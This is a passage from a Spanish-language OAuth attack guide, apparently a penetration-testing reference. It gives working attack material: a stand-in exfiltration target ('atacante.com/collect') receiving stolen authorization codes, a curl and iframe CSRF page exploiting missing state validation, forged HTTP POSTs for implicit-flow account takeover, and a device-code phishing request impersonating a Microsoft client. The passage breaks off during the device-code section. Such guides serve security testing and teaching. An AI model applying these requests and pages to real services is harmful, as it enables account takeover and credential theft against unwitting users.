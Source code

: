 **Evidencias esperadas:** Authorization code enviado a `atacante.com/collect?code=ABCD1234`.

#### 2. CSRF via state parameter bypass

**Preparación del atacante:**

```bash
# 1. Atacante inicia flujo OAuth y captura su propio authorization code
curl "https://oauth-provider.com/auth?client_id=123&redirect_uri=https://victima.com/callback&response_type=code" 
# Obtiene: code=ATTACKER_CODE

# 2. Atacante detiene su flujo antes del intercambio por token
```

**Página maliciosa del atacante:**

```html
<!DOCTYPE html>
<html>
<body>
    <!-- Auto-submit del código del atacante a la víctima -->
    <iframe src="https://victima.com/callback?code=ATTACKER_CODE&state="></iframe>
    <!-- Si state no se valida, víctima queda logueada como el atacante -->
</body>
</html>
```

#### 3. Implicit Flow - Account takeover

**Captura del flujo legítimo:**

```http
POST /authenticate HTTP/1.1
Host: victima.com
Content-Type: application/x-www-form-urlencoded

email=user@victima.com&access_token=ya29.VALID_TOKEN&name=Usuario
```

**Manipulación maliciosa:**

```http
POST /authenticate HTTP/1.1
Host: victima.com
Content-Type: application/x-www-form-urlencoded

email=admin@victima.com&access_token=ya29.ATTACKER_TOKEN&name=Admin
```

Si la app no valida que el access_token corresponde al email, el atacante accede como admin.

#### 4. Device Code Phishing

**Paso 1 - Atacante inicia device flow:**

```bash
curl -X POST https://oauth-provider.com/device_authorization \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "client_id=microsoft-word-client&scope=https://graph.microsoft.com/.default"

# Respuesta:
# {
#   "device_code": "GmRhmhcxhwAzkoEqiMEg_DnyEysNkuNhszIySk9eS",
#   "user_code": "WDJB-MJHT", 
#   "verification_uri": "https://microsoft.com/devicelogin",
#   "expires_in": 900
# }
```
